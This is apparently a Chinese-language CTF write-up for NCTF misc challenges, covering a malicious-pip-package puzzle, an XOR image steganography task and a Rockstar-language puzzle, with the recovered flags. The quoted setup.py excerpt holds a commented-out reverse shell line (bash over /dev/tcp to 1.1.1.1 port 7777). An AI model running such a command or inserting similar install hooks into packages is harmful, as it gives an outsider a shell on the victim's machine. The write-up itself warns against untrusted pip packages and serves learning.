 ```python
tmp_file = tempfile.gettempdir() + path.sep + '.f14g_is_here'
f = open(tmp_file, 'w')
f.write('TkNURntjNHJlZnVsX2FiMHU3X2V2MWxfcGlwX3A0Y2thZ2V9')
f.close()

# system('bash -i >& /dev/tcp/1.1.1.1/7777 0>&1')
# Ohhhh, that a joke. I won't do that. 

setup(...
```

然后解密base64就可以得到flag。  

`NCTF{c4reful_ab0u7_ev1l_pip_p4ckage}`  

这道题也给我们提了个醒，要小心来源不明的pip包，不要直接就sudo pip install...

### a_good_idea

得到图片，首先看表层信息。getinfo没有发现信息。  

检查隐写：`binwalk pic`发现压缩包，`foremost pic`提取。

解压压缩包，发现其中有一个hint.txt:

> try to find the secret of pixels

和两张看似一样的图片。  

图片像素XOR，得到新图片，其中有明暗相间的红色格子。调高亮度，感觉像是二维码。用二值化的思想，直接使用PS的魔棒工具，阈值选择5，抠图即可得到二维码。

![solve2.png](https://upload-images.jianshu.io/upload_images/19782504-7d922d436e4da13f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

`NCTF{m1sc_1s_very_funny!!!}`

### become a Rockstar

看起来很像是一门语言。百度rockstar语言，还真的有。。

直接转码python

```python
leonard_adleman = "star"
problem_makers = 76
problem_makers = "NCTF{"
def God(World):
    a_boy = "flag"
    the_boy = 3
def Evil(your_mind):
    a_girl = "no flag"
    the_girl = 5
Truths = 3694
Bob = "ar"
adi_shamir = "rock"
def Love(Alice, Bob):
    Mallory = 13
    Mallory = 24
Everything = 114514
Alice = "you"
def Reality(God, Evil):
    God = 26
    Evil = 235
ron_rivest = "nice"
def you_want_to(Alice, Love, Anything):
    You = 5.75428
your_heart = input()
You = 5
your_mind = input()
```